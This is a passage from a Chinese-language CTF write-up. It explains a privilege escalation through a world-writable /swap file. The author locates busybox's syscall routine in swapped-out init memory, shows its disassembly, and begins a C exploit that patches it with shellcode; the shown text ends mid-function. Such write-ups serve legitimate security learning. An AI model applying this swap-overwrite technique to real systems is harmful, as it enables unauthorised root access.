 启动脚本中, 一开始是一些常规初始化操作. 然后进行如下操作:
1. 使用`umask`\[3\]将新建文件时的权限设为`rw-rw-rw`. (默认的umask值是002, 此时新建文件时权限是`rw-rw-r--`).
2. 使用`dd`新建一个大小为10MB的文件`/swap`, 用0填充
3. 使用`losetup`\[4\]将`/swap`这个文件这个一个loop device `/dev/loop0`关联起来
4. 使用`mkswap`\[5\]在`/dev/loop0`这个设备中建立swap空间.
5. 使用`swapon`启用`/dev/loop0`这个swap空间.

简单来说, swap空间的目的就是使用硬盘空间来替代内存空间, 当内存空间不足时, 内核会将部分不常用的物理内存挪到swap空间中. 用户可以通过设置`swappiness`参数来修改替换策略. `swappiness`默认值是60. 即当物理内存使用达到40%时, 就开始启用swap空间. 有关swap空间的更多信息参考\[6\].

此时已经可以发现漏洞点了: 因为`/swap`的权限是`rw-rw-rw`, 所以我们可以通过修改`/swap`文件实现对物理内存的修改.

具体思路如下: 因为1号init进程是root权限执行的, 所以如果可以修改这个进程代码段执行shellcode的话, 就可以实现提权拿flag了. 经过对2019师傅wp的参考和多次尝试, 最终选择修改busybox中的`syscall`函数, 可以比较稳定地触发shellcode. 2019师傅一开始找的是`_exit`. 但是碰巧`syscall`正好在`_exit`后面, 所以发现替换`syscall`可以稳定触发shellcode. 关于如何定位syscall函数, 可以编译一个带符号的busybox, 然后通过比较来确定.

```asm
.text:00000000004D128D loc_4D128D:                             ; CODE XREF: sub_4CE339+2↑j
.text:00000000004D128D                 mov     rax, rdi
.text:00000000004D1290                 mov     rdi, rsi
.text:00000000004D1293                 mov     rsi, rdx
.text:00000000004D1296                 mov     rdx, rcx
.text:00000000004D1299                 mov     r10, r8
.text:00000000004D129C                 mov     r8, r9
.text:00000000004D129F                 mov     r9, [rsp+arg_0]
.text:00000000004D12A4                 syscall                 ; LINUX -
.text:00000000004D12A6                 retn
```

通过使用syscall附近的代码作为特征去搜索 `/swap` 文件, 同时不断用`mmap`来消耗占用内存, 直到发现 `syscall`函数并将其后代码替换成shellcode.

关于从IDA中复制内存推荐一个工具 LazyIDA\[7\], 可以一键生成python代码或者c代码, 很方便.

最后exp如下:

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <inttypes.h>
#include <stdint.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#define PAGE_SIZE 0x80000
#define swap_size 0xa00000

const unsigned char NEEDLE[] = {
    0x48, 0x63, 0xFF, 0xB8, 0xE7, 0x00, 0x00, 0x00, 0x0F, 0x05, 0xBA, 0x3C, 0x00, 0x00, 0x00, 0x48, 
    0x89, 0xD0, 0x0F, 0x05, 0xEB, 0xF9, 0x48, 0x89, 0xF8, 0x48, 0x89, 0xF7, 0x48, 0x89, 0xD6, 0x48, 
    0x89, 0xCA, 0x4D, 0x89, 0xC2, 0x4D, 0x89, 0xC8, 0x4C, 0x8B, 0x4C, 0x24, 0x08, 0x0F, 0x05, 0xC3
};


unsigned char swap_buf[swap_size];

void die(char *msg){
    printf("[!] %s\n", msg);
    exit(-1);
}

int match(){
    FILE *fp = fopen("/swap", "r+");
    if (fp == NULL) die("open /swap failed");
```